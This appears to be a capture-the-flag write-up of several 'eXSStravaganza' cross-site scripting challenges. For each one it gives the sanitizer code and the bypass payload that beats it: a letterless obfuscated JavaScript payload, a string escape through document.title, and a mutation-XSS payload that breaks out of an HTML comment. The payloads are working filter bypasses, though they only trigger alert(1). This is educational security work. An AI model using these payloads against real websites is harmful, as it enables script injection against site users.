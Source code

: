 This time our input is embedded in a script, but it's **heavily** filtered (no letters of any kind!), and we have a character limit of 140.  
JSFuck would work here, but the character limit is way too small. [This gist](https://gist.github.com/ignis-sec/a89988c3bc473c055c1c5a5228a23fc6) shows a shorter method to achieve what JSFuck does, but it's still too long. With some optimizations (using numbers, using parenthesis, concatenating all strings in one, changed the order to favorite shorter words) I managed to get the payload to 127 characters.  

``〱=[!0]+!1+[][0]+{},ᘘ=〱[23],ᘙ=〱[19],ᘚ=〱[1],ᘲ=〱[0],ᘳ=ᘘ+ᘙ+〱[10]+〱[7]+ᘲ+ᘚ+〱[2]+ᘘ+ᘲ+ᘙ+ᘚ,ᘎ=〱[5]+〱[6]+〱[3]+ᘚ+ᘲ+'(1)',[][ᘳ][ᘳ]`ᘎ${ᘎ}``` ``  
After the solving the challenge, I searched around a bit and found there is [this payload](https://github.com/hahwul/XSS-Payload-without-Anything) which is way shorter than 127 chars.  

### eXSStravaganza-BONUS:1
```
function sanitize(input) {
    // only letters and some other characters
    const sanitized = input
        .replace(/[^a-z"+,:.=]/g, '')
    return '  \x3Cscript>\nvar x = "' + sanitized + '";\n  \x3C/script>'
}
```
Here our input is again in a variable, and only some characters are allowed.  
The browser here has a strange name for the tab.  
![Browser tab displayingh](browser.png?raw=true "Browser tab")  
Looking at the few characters allowed, we can escape from the string and build a payload leveraging the title of the page (which conviniently cointains valid Javascript code) in the tiny browser.  
`", location="javascript:"+document.title+"`

### eXSStravaganza-BONUS:2
```
function sanitize(input) {
    // no bad chars
    const sanitized = input
        .replace(/[-&%!/#;]/g, '')
    const template = document.createElement('template');
    template.innerHTML = sanitized;
    return '  <!-- ' + template.innerHTML + ' -->'
}
```
Here our input is put again in a comment, this time it's an HTML one.  
The sanitization function uses template and createElement, this combination lets the browser mutate our input. By putting `<?>` `createElement` will surround it with a comment (this is done to not render PHP code in the browser), breaking the comment in which we were stuck and allowing us to inject arbitrary HTML.
`<?><svg onload=alert(1)> `
